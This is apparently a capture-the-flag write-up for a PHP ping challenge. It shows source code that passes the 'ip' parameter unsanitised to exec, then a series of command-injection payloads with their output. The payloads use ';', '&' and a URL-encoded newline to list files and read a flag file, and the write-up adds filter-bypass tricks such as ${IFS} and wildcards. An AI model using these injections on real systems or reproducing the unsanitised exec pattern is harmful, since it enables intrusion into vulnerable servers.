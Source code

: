 ```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```



payload `127.0.0.1;ls` 

```
Array
(
    [0] => PING 127.0.0.1 (127.0.0.1): 56 data bytes
    [1] => 64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.065 ms
    [2] => 64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.056 ms
    [3] => 64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.075 ms
    [4] => 64 bytes from 127.0.0.1: seq=3 ttl=42 time=0.067 ms
    [5] => 
    [6] => --- 127.0.0.1 ping statistics ---
    [7] => 4 packets transmitted, 4 packets received, 0% packet loss
    [8] => round-trip min/avg/max = 0.056/0.065/0.075 ms
    [9] => flag_is_here
    [10] => index.php
)
```

payload `127.0.0.1&ls flag_is_here` 

```
flag_238061868711362.php
```

payload

`127.0.0.1&cd flag_is_here;cat flag_238061868711362.php` 

右键查看源代码

![image-20221126150922089](https://img.gyxnb.top/img/image-20221126150922089.png)

${IFS}
flag-->f***
cat -->more
;-->%0a回车 %0d换行（%0a是url的编码，需要在url栏输入）
```

在url栏输入

`127.0.0.1%0als`

```
[9] => flag_is_here
[10] => index.php
```

payload 

```